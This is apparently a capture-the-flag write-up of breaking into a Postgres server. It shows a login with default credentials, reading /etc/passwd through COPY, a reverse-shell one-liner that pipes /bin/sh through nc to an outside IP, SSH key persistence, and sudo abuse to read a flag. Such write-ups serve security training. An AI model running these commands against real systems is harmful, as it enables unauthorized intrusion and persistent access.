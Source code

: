# Haxquash

Crated the resource and got an IP number

> IP: 52.214.141.72

## nmap

Did a nmap scan on the server and identifed open ports

```
22 tcp ssh
80 tcp http
5432 tcp postgresql
```


Connect to server with postgres tool

```
local$ psql -h 52.214.141.72 -U postgres
```

Connected to postgres, testing default username/password = postgres.
Surprisingly that worked.

## Running SQL commands

Tried first to see what files was available 


```
select pg_ls_dir('./');
```

Listing some none-important files
Tried to list files in "/" but was denied access. Only current directory. Tried some path traversal to no luck.


Tried to read files

```
CREATE TABLE test(output text);
COPY test from '/etc/passwd'
SELECT * from test
```

Successfull, we now had a list of accounts and home folders.

Tried to write files to www folder, maybe we could insert some server side code.

```
copy (select convert_from(decode('PEhUTUw+CkRyYWdvbnoKPC9IVE1MPg==','base64'),'utf-8')) to '/var/www/html/index2.html’;
```
Unsuccessful, since user Postgres didnt have access there. We could write files to local folder and /tmp. But that wasnt very useful.

It was about time to try reverse-shell.
Created local listener on a public endpoint

```
$nc -lvn -p 4444
```

Then told Postgres to connect
```
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 85.166.nnn.nnn 4444 >/tmp/f';
```

Success!!

## Getting SSH access

The trick is to create a new folder ~/.ssh and add a new file «authorized_keys» with the content of your own id_rsa.pub from your local ~/.ssh/id_rsa.pub

```
local$ ssh postgres@52.214.141.72
```


And we logged in with no password, just using your private key


## user.txt

After getting a tty (using ssh) we can now do a *sudo*.

To list potential sudo commands to run we run 'sudo -l'

```
postgres@ip-10-0-0-164:~$ sudo -l

Matching Defaults entries for postgres on ip-10-0-0-164:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User postgres may run the following commands on ip-10-0-0-164:
    (helix) NOPASSWD: /bin/cat

```

Taking a wild guess that the user.txt lives in helix home directory

```
sudo -u helix cat /home/helix/user.txt
```

Ad there was the user flag.

It was now 17:50, so there was no more time trying to root the server.

